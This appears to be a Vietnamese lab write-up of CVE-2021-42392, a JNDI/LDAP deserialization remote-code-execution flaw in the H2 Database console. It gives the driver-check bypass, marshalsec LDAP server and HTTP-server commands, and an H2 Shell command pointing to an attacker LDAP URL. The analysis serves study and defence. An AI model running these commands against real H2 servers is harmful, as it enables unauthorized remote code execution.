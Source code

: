 Lỗ hổng này là một lỗ hổng liên quan đến Deserialization. Nó khá giống với Log4j, nhưng impact thì thấp hơn rất nhiều.

## 1. Về mục tiêu
Target là H2 Database version < 2.0.206. H2 Database là một hệ quản trị cơ sở dữ liệu quan hệ. Các tính năng của nó cũng tương tự với hệ quản trị CSDLQH khác như Mysql, SQLServer, ... nhưng thường được dùng trong Java Spring Boot.
Giao diện của H2 console trông hơi phèn phèn, có vẻ là khá cũ kĩ rồi.
![image.png](https://images.viblo.asia/ebbe0096-9394-47d0-9b22-bd964c8a0433.png)

## 2. Phân tích lỗ hổng
Lỗ hổng CVE-2021-42392 là lỗ hổng liên quan đến việc kiểm tra đầu vào không an toàn của Driver Class và JDBC URL dẫn tới tải một payload chứa object nguy hiểm, sau đó Deserialize và dẫn tới RCE.
Anh em nào từng làm việc với Log4shell thì biết lỗ hổng này hoạt động như thế nào.
Lỗ hổng xảy ra khi thực thi hàm lookup đối với 1 url do người dùng kiểm soát tại util/JdbcUtils.class.
    ![image.png](https://images.viblo.asia/7bb3281d-7a66-457c-b853-c9721dbd9197.png)
Chả hiểu sao thằng IntelliJ này lại decompile ra toàn var1 var2,... nhìn hơi ức chế nên mình chuyển sang  jd-gui thử. Anh em nhìn ở đây sẽ dễ hơn:
![image.png](https://images.viblo.asia/af6330ae-a55c-491e-9d92-776fedb9d3cd.png)

Chức năng connect DB ở trong H2 Console dùng để anh em nhập Driver (ví dụ Mysql Driver, Postgresql Driver, MongoDB Driver, ...) và JDBC là path để connect tới DB đó, tuy nhiên việc check rất sơ sài.
Hàm chỉ kiểm tra xem giá trị JDBC có bắt đầu bằng jdbc:h2 không, sau đó tiến tới đoạn code sau luôn.
![image.png](https://images.viblo.asia/9a08107b-ece7-4888-b838-bcd9fb31e779.png)
![image.png](https://images.viblo.asia/6fb3ffa7-ea98-439f-bc13-9bc88bcbf830.png)

Sau đó ở lệnh if tiếp theo, hàm kiểm tra xem Driver nhập vào có phải là javax.naming.Context hay không (biến d ở trên được gán với Driver input). Sau đó nó sẽ thực hiện JNDI lookup URL đó. Nếu URL đó là URL mà kẻ tấn công kiểm soát, chúng có thể chèn một object nguy hiểm để hệ thống Deserialize và dẫn đến RCE.

Tại sao JNDI lookup URL lại có thể deserialize được object? 

Trước tiên anh em nên đọc thêm tác dụng của JNDI tại [đây](https://stackoverflow.com/questions/1350816/what-is-the-purpose-of-jndi). Với anh em nào code Java nhiều thì khả năng sẽ dễ hiểu hoặc cũng nằm lòng JNDI rồi, còn mình ít dùng Java nên ban đầu đọc về thằng này cũng hơi khó hiểu. JNDI viết tắt của Java Naming and Directory Interface.  Như cái tên, nó là 1 Interface, sử dụng cho các dịch vụ đặt tên và thư mục. JNDI đặt tên cho các đối tượng, để chúng thân thiện hơn với người dùng. Để sử dụng JNDI thì mình phải Implement nó (vì nó là Interface mà). Ràng buộc giữa tên và đối tượng được gọi là bind.
Trường hợp thường gặp nhất của JNDI là DNS, một dịch vụ giúp ánh xạ tên miền với địa chỉ IP.
Trong trường hợp này, ta sẽ sử dụng phương thức LDAP, một phương thức truy cập cấu trúc cây thư mục, hay sử dụng trong xác thực. LDAP cũng có chức năng ánh xạ từ tên sang object giống JNDI, vì nó Implement từ JNDI mà.
Cụ thể hơn về LDAP anh em có thể đọc ở [đây](https://bizflycloud.vn/tin-tuc/ldap-la-gi-ldap-hoat-dong-nhu-the-nao-20200617105658612.htm).
Trong trường hợp này, một LDAP server được điều khiển bởi attacker, có chứa 1 object payload độc hại bind với 1 tên. H2 đóng vai trò là  client, thực hiện gọi phương thức LDAP, tìm kiếm giá trị tên đó, sau đó nhận về object độc hại, rồi deserialize để đọc dữ liệu và dẫn tới RCE. 
Để gọi tới phương thức LDAP và thực hiện tìm kiếm tên và trả về object, hàm Context.lookup nhận vào giá trị dạng `ldap://<attacker-ldap-server>:<ldap-port>/<Name>`.
    ![image.png](https://images.viblo.asia/190017ca-873b-4281-aca5-22ad47a4b2af.png)
Nhập Driver Class là `javax.naming.InitialContext` để bypass hàm if check, sau đó đưa URL ldap vào, kết quả khi debug sẽ là:
![image.png](https://images.viblo.asia/d86f1e43-fa04-4d9e-aa96-91292d6c8119.png)

Như vậy với một payload cơ bản thì hàm đã thực hiện JNDI lookup. Việc tiếp theo cần làm là dựng một LDAP server có chứa binding giữa một giá trị name là Exploit với một Object nguy hiểm tại cổng 1389. Sử dụng tool [marshalsec](https://github.com/mbechler/marshalsec), một tool dựng các server với các giao thức khác nhau rất tiện lợi.

Làm theo hướng dẫn trên README để build file jar của marshalsec, sau đó chạy lệnh `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.17.0.1:8000/#Exploit` để tạo ra server LDAP port 1389, bind giữa name Exploit với object Exploit.class. Nếu có client nào thực hiện LDAP search tới server với name Exploit, server sẽ trả về kết quả lookup là link http://172.17.0.1:8000/Exploit.class. Client - tức H2 sẽ gửi get request tới link đó để nhận về Object rồi Deserialize. Việc cuối cùng cần làm là tạo 1 class tên là Exploit và chứa đoạn payload nguy hiểm ở trong đó.
![image.png](https://images.viblo.asia/93783879-bf2b-4bfe-8bbd-156a62502862.png)

Class này nếu chạy sẽ thực hiện ping đến server của kẻ tấn công. Build ra class bằng lệnh javac Exploit.java, sau đó mở một http server port 8000 tại đây bằng python3 -m http.server. 



## 3. Thực hiện khai thác
Dựng môi trường bằng docker với h2database lấy ở [đây](https://hub.docker.com/r/buildo/h2database).

Sau đó truy cập đến giao diện H2 Console rồi chèn payload như sau:
![image.png](https://images.viblo.asia/215891a0-9d47-49a5-b1bd-140f87aa973b.png)

Cũng không hiểu tại sao không thể curl từ trong container ra máy thật được nên mình đành phải dùng lệnh ping để demo.
Kết quả là: Server H2 thực hiện truy vấn LDAP đến server attacker dựng bằng marshalsec, sau đó server attacker redirect sang HTTP server của attacker có chứa object nguy hiểm, và server H2 deserialize object  đó và RCE thành công.
![image.png](https://images.viblo.asia/e90d67a5-c45e-4ee3-8af6-ea4084bb488c.png)

![image.png](https://images.viblo.asia/8aa59be7-ca67-4003-96f0-4c4e4bd76901.png)

![image.png](https://images.viblo.asia/4a25e843-1f60-4cf0-a10c-f505ecf80cb3.png)

***Note**: Lỗ hổng chỉ ảnh hưởng tới anh em connect dùng H2 Console, vì khi có console thì người dùng mới có thể kiểm soát được đầu vào của nó. Ngoài ra các giá trị đầu vào này có thể chạy bằng CommandLine: `java -cp h2-2.0.202.jar org.h2.tools.Shell -driver javax.naming.InitialContext -url ldap://172.17.0.1:1389/Exploit` nên nếu anh em kiểm soát được các tham số này thì cũng sẽ khai thác được lỗ hổng.